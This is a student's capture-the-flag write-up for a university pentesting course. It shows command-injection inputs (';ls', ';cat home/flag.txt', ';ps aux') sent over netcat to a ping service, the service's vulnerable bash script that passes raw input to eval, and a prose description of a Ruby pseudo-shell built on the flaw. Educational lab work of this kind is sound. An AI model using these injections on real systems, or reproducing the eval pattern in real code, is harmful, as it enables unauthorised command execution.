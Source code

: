 # Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

In summary, the steps taken were:

- Experimented with accepted input (ip address, eg, 157...., 8.8.8.8, localhost)
- Experimented with the semicolon as it's a common command line injection technique (eg, ;ls, ;whoami)
- Tried ;ls home (led to flag)
- Tried ;ps aux (led to opt/container_startup.sh)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I realized I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

  Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat the script, which showed how the ping script. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

~~~~
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"
~~~~

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command.

A brief transcript is included below:

~~~~
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.
~~~~

### Part 2 (55 pts)

A short ruby script was written to leverage the command-line injection vulnerability.

The script prints a menu with options to drop into a shell and download files. The shell is implemented as a loop that reads the command the user wishes to run, and then opens a network connection, run it via command-line injection, and then present the output to the user. The download function is implemented similarly except the cat command is run and the resulting output is captured to a file.

The user's current directory had to be remembered between sessions of the shell because the session is essentially stateless. This was achieved by sending a cd command before the user's command.
